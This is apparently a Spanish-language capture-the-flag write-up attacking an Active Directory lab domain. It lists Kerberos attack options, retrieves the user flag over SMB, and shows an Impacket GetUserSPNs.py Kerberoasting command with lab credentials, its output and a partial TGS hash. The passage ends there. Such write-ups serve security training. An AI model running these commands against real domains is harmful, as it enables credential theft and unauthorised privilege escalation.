 ###  Ataques Kerberos:

- Usar la cuenta en herramientas como `GetUserSPNs.py` para hacer **Kerberoasting**.
- Intentar **AS-REP Roasting**, si el usuario no requiere preautenticación.
- Validar si la cuenta tiene acceso RDP (escritorio remoto).
- Validar si tiene privilegios delegados o permisos sobre objetos en AD (con `bloodhound` o `ldapdomaindump`).

# Captura de la User Flag

Obtenemos la primera flag de la maquina.


```bash
smb: \ybob317\Desktop\> get user.txt /home/zikuta/usuario.txt
```


# Escalada de privilegios en entorno Active Directory — **SPN Enumeration, Hash Dump y Pass-the-Hash**

### **Explotación de un usuario de dominio válido — Enumeración de SPNs (Kerberoasting)**

Con las credenciales válidas descubiertas previamente (`ybob317:ybob317`), ejecutamos un ataque de **Kerberoasting**, una técnica que permite solicitar tickets de servicio (TGS) asociados a cuentas con **SPN (Service Principal Name)** y luego intentar crackear sus hashes offline.

#### Herramienta utilizada:

`GetUserSPNs.py` (parte de la suite Impacket)


```bash
                                                                  
┌──(zikuta㉿zikuta)-[/usr/share/doc/python3-impacket/examples]
└─$ python3 GetUserSPNs.py SOUPEDECODE.LOCAL/ybob317:ybob317 -dc-ip 10.201.67.29 -request -outputfile /home/zikuta/Desktop/soupedecode/hashes.txt
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName    Name            MemberOf  PasswordLastSet             LastLogon  Delegation 
----------------------  --------------  --------  --------------------------  ---------  ----------
FTP/FileServer          file_svc                  2024-06-17 12:32:23.726085  <never>               
FW/ProxyServer          firewall_svc              2024-06-17 12:28:32.710125  <never>               
HTTP/BackupServer       backup_svc                2024-06-17 12:28:49.476511  <never>               
HTTP/WebServer          web_svc                   2024-06-17 12:29:04.569417  <never>               
HTTPS/MonitoringServer  monitoring_svc            2024-06-17 12:29:18.511871  <never>               



[-] CCache file is not found. Skipping...
                                                                                                                                                                                                                  
┌──(zikuta㉿zikuta)-[/usr/share/doc/python3-impacket/examples]
└─$ cat /home/zikuta/Desktop/soupedecode/hashes.txt           
$krb5tgs$23$*file_svc$SOUPEDECODE.LOCAL$SOUPEDECODE.LOCAL/file_svc*
```
